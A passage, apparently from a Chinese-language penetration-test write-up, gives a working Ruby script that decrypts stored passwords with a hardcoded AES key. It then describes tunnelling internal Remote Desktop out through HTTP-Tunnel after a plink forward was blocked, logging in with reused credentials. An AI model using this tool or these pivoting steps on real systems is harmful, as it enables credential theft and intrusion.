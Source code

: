 使用方法是：

```
#ruby decrypt.rb 密文 
```

```
require 'rubygems'
require 'openssl'
require 'base64'

#encrypted_data = "AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk"

encrypted_data = ARGV

def decrypt(encrypted_data)
  padding = "=" * (4 - (encrypted_data.length % 4))
  epassword = "#{encrypted_data}#{padding}"
  decoded = Base64.decode64(epassword)

   key = "\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b"
  aes = OpenSSL::Cipher::Cipher.new("AES-256-CBC")
  aes.decrypt
  aes.key = key
  plaintext = aes.update(decoded)
  plaintext << aes.final
  pass = plaintext.unpack('v*').pack('C*') # UNICODE conversion

   return pass
 end

blah = decrypt(encrypted_data)
puts blah 

```

尝试用 plink 端口转发，把内网的远程桌面连接转发出来，但是被阻断了：

![enter image description here](img/img20_u17_png.jpg)

测试后发现可以通过 HTTP-Tunnel 转发出来：

[`http-tunnel.sourceforge.net/`](http://http-tunnel.sourceforge.net/)

登陆的用户名密码采用的是 SQLite Manager 应用中的 mike 用户。
